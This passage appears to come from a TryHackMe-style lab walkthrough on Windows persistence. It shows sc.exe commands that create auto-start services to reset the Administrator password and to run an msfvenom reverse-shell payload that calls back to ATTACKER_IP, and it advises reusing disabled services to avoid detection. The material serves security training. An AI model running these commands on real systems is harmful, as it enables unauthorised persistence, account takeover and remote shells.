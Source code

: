 ### Creating backdoor services

We can create and start a service named "THMservice" using the following commands:

```
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

**Note**: There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```        

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:

sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2

This should create a connection back to your attacker's machine.

![task4-flag](./images/task4-flag.png)

### Modifying existing services

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:

```
sc.exe query state=all
```
![task4-sc](./images/task4-sc.png)       

